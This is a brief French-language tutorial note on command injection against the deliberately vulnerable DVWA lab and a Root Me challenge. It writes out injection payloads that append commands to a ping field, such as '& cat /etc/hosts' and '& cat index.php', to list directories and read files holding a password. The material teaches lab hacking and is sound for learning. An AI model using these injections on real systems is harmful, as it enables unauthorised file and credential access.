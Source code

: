 # Commande Injection Hacking

Aller à la page de DVWA Command Injection. 

Pour introduire les injonction de commandes, par exemple lorsque je tape une commande quelconque tel que :

```bash
ping 8.8.8.8 & ls
```

La command `cat` liste le contenu d'un fichier
```
& cat /etc/hosts
```

Revenir au dossier sources et lire les fichiers et dossier de ce folder :
```bash
& cd ~ & ls ./
```

## Exercices

- [Exercice Root Me Injection de commande](https://www.root-me.org/fr/Challenges/Web-Serveur/Injection-de-commande)
Dans cet exercice, une commande php résumant l'utilisation du mot de passe stocker sur ce serveur dans un fichier caché.
pour lire le contenu du fichier index.php, nous allons entré l'ajout de la commande `& ls` premièrement pour localisé le fichier, puis nous allons faire un `& cat index.php` afin d'afficher en HTML le code de la page index.php

A vous de trouver alors quel fichier comporte le mot de passe ! Car aucune solution de hacking n'est authorisé sur internet !!